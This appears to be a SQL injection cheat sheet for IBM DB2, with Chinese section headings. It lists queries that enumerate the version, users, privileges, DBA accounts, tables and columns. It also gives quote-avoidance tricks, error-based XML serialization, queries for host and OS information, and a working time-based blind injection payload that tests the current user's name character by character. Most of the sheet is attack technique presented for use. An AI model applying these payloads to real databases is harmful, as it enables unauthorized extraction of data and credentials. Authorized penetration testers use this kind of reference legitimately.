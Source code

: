 ##### 版本
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
##### 注释
	--
##### 当前用户
	select user from sysibm.sysdummy1
	select session_user from sysibm.sysdummy1
	select system_user from sysibm.sysdummy1
##### 列出用户
	DB2 使用操作系统帐户
	select distinct(authid) from sysibmadm.privileges -- priv required
	select grantee from syscat.dbauth -- incomplete results
	select distinct(definer) from syscat.schemata -- more accurate
	select distinct(grantee) from sysibm.systabauth -- same as previous
##### 列出权限
	select * from syscat.tabauth -- shows priv on tables
	select * from syscat.tabauth where grantee = current user -- shows privs for current user
	select * from syscat.dbauth where grantee = current user;;
	select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
##### 列出 DBA 帐户
	select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
	select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
##### 当前数据库
	select current server from sysibm.sysdummy1
##### 列出数据库
	select distinct(table_catalog) from sysibm.tables
	SELECT schemaname FROM syscat.schemata;
##### 列出列
	select name, tbname, coltype from sysibm.syscolumns -- also valid syscat and sysstat
##### 列表表
	select table_name from sysibm.tables
	select name from sysibm.systables
##### 从列名中查找表
	select tbname from sysibm.syscolumns where name='username'
##### 选择第 N 行
	select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
##### 选择第 N 个字符
	select substr('abc',2,1) FROM sysibm.sysdummy1 -- returns b
##### 按位与/或/非/异或
	select bitand(1,0) from sysibm.sysdummy1 -- returns 0. Also available bitandnot, bitor, bitxor, bitnot
##### ASCII 值
	Char	select chr(65) from sysibm.sysdummy1 -- returns 'A'
##### 字符 -> ASCII 值
	select ascii('A') from sysibm.sysdummy1 -- returns 65
##### Cast
	select cast('123' as integer) from sysibm.sysdummy1
	select cast(1 as char) from sysibm.sysdummy1
##### 字符串连接
	select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- returns 'abc'
	select 'a' || 'b' from sysibm.sysdummy1 -- returns 'ab'
##### 避免引用
	SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
##### 时间延迟
	重查询，例如：如果用户以 ascii 68 ('D') 开头，将执行重查询，延迟响应。但是，如果用户不以 ascii 68 开头，则不会执行繁重的查询，因此响应会更快。

	' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
##### 序列化为 XML（基于错误）
	select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
	select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
	select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
##### 命令执行和本地文件访问
	只允许从程序或 UDF 中使用。

	主机名/IP 和操作系统信息
	select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
	数据库文件的位置
	select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
	系统配置
	select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
	select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg